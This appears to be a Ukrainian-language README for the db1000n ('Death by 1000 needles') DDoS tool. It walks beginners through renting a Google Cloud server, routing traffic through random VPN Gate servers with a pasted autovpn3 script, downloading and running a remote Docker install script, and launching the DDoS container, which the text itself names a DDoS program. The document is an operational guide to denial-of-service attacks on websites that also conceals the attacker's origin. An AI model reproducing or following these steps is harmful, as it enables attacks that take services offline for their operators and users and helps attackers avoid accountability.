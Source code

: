 # Death by 1000 needles

Developed by Arriven (https://github.com/Arriven)

## Інструкція для новачків як встановити на виділений сервер google clouds

Спочатку треба зареєструватися та створити виділений сервер в cloud.google.com або іншому сервісі.
cloud.google.com дають при старті 300$ для використання серверів - цього повинно хватати надовго.
Робимо все по інструкції як вказано тут:

**https://telegra.ph/%D0%86nstrukc%D1%96ya-yak-DDositi-sajti-za-dopomogoyu-server%D1%96v-02-26**

тільки в пункті 6 вибираємо **e2-medium** тому що **e2-micro** не тягне.

доходимо до пункту 8.
далі робимо слідуюче:

### Спочатку оновлюємо систему

для копіювання і вставлення команд в командному рядку працюють комбінації клавіш **ctrl**+**C** **ctrl**+**V**

```
sudo apt-get update
```

потім встановлюємо программи (виконуємо команди по одній)

```
sudo apt-get install screen
```

```
sudo apt-get install openvpn
```

попросить підтвердження встановлення. нажимаємо **y** та **enter**

### Создаємо конфіг для впн

```
nano autovpn3.sh
```

відкриється редактор, копіюємо і вставляємо туди текст нижче. **ctrl**+**C** **ctrl**+**V**

```
#!/bin/bash

# autovpn3, coded by MiAl,
# you can leave a bug report on the page: https://miloserdov.org/?p=5858
# сообщить об ошибке на русском вы можете на странице: https://HackWare.ru/?p=15429

# you can change these parameters:
country='RU' # empty for any or JP, KR, US, TH, etc.
useSavedVPNlist=0 # set to 1 if you don't want to download VPN list every time you restart this script, otherwise set to 0
useFirstServer=0 # set the value to 0 to choose a random VPN server, otherwise set to 1 (maybe the first one has higher score)
vpnList='/tmp/vpns.tmp'
proxy=0 # replace with 1 if you want to connect to VPN server through a proxy
proxyIP=''
proxyPort=8080
proxyType='socks' # socks or http
# don't change this:
counter=0
VPNproxyString=''
cURLproxyString=''
if [ $proxy -eq 1 ];then
    echo 'We will use a proxy'
    if [ -z "$proxyIP" ]; then
        echo "To use a proxy, you must specify the proxy's IP address and port (hardcoded in the source code)."
        exit
    else
        if [ "$proxyType" == "socks" ];then
            VPNproxyString=" --socks-proxy $proxyIP $proxyPort "
            cURLproxyString=" --proxy socks5h://$proxyIP:$proxyPort "
        elif [ "$proxyType" == "http" ];then
            VPNproxyString=" --http-proxy $proxyIP $proxyPort "
            cURLproxyString=" --proxy http://$proxyIP:$proxyPort "
        else
            echo 'Unsupported proxy type.'
            exit
        fi
    fi
fi

if [ $useSavedVPNlist -eq 0 ];then
    echo 'Getting the VPN list'
    curl -s $cURLproxyString https://www.vpngate.net/api/iphone/ > $vpnList
elif [ ! -s $vpnList ];then
    echo 'Getting the VPN list'
    curl -s $cURLproxyString https://www.vpngate.net/api/iphone/ > $vpnList
else
    echo 'Using existing VPN list'
fi

while read -r line ; do
    array[$counter]="$line"
    counter=$counter+1
done < <(grep -E ",$country" $vpnList)
CreateVPNConfig () {
    if [ -z "${array[0]}" ]; then
        echo 'No VPN servers found from the selected country.'
        exit
    fi

    size=${#array[@]}

    if [ $useFirstServer -eq 1 ]; then
        index=0
        echo ${array[$index]} | awk -F "," '{ print $15 }' | base64 -d > /tmp/openvpn3
    else
        index=$(($RANDOM % $size))
        echo ${array[$index]} | awk -F "," '{ print $15 }' | base64 -d > /tmp/openvpn3
    fi

    echo 'Choosing a VPN server:'
    echo "Found VPN servers: $((size+1))"
    echo "Selected: $index"
    echo "Country: `echo ${array[$index]} | awk -F "," '{ print $6 }'`"
}

while true
    do
        CreateVPNConfig
        echo 'Trying to start OpenVPN client'
        sudo openvpn --config /tmp/openvpn3 $VPNproxyString
        read -p "Try another VPN server? (Y/N): " confirm && [[ $confirm == [yY] || $confirm == [yY][eE][sS] ]] || exit
    done
```

для вихода нажимаємо **ctrl**+**X** далі для збереження нажимаємо **Y** та **enter**

даємо права на виконання файлу

```
chmod +x autovpn3.sh
```

### Далі запускаємо впн.

создаємо нову сессію терміналу

```
screen
```

видасть додатокве вікно натискаємо там **enter**

запускаємо скрипт vpn

```
sudo ./autovpn3.sh
```

якщо видає помилку **_No VPN servers found from the selected country._**
то відкриваємо ще раз конфіг на редагування

```
nano autovpn3.sh
```

ідемо на строку **_country='RU' _**
і змінюємо країну на іншу. наприклад японія **JP**

запуститься скрипт, щоб вийти з цієї сессії терміналу потрібно натиснути **ctrl+A ctrl+D**

### Далі встановлюємо докер

```
 wget https://gist.githubusercontent.com/antl31/83229c0eaaa1d259a569cfb57ab75230/raw/b4e01a106fbe534a7bfa4930a66cf933c6366c5c/install_docker.sh
```

```
bash install_docker.sh
```

встановиться докер та відкриється вже нова сесія терміналу. натискаємо **enter**

### Запускаємо скрипт

```
sudo docker run ghcr.io/arriven/db1000n
```

якщо скрипт запустився та працює постійно хочаб хвилин 10 то все нормально. профіт.
якщо скрипт попрацював трохи і вийшов - змінюйте країну і запускайте наново.

щоб вийти з цієї сессії терміналу потрібно натиснути **ctrl+A ctrl+D**

коли ви вийдете то можете закривати вікно все працює.
через деякий час щоб перевірити як працює скрипт треба ще раз відкрити через пункт **Open in browser window** в панелі керування гугл клоуд

тут треба навчитися користуватися вікнами **screen**

пишемо

```
screen -ls
```

побачимо вивід команди:

**There are screens on:**<br/>
**4688.pts-0.instance-5 (03/04/22 11:12:13) (Detached)**<br/>
**2219.pts-0.instance-5 (03/04/22 09:59:36) (Detached)**<br/>
**2 Sockets in /run/screen**

тут ми бачимо що запущені 2 сесії (номери на початку 2 і 3 строки у вас будуть інші).
дивимося по часу запуску що одна запущена раніше, інша пізніше.
значить та шо раніше там впн, та шо пізніше - наша программа для ддос.
щоб перейти на вікно з программою потрібно написати

```
screen -r 4688
```

номер у вас буде свій. вписуєте той шо в вас.
ви перейдете на термінал з запущеною программою.

якщо у вас виникають проблеми із запуском то зверніться в чат телеграмм https://t.me/+md-77jub3zQyOWRi
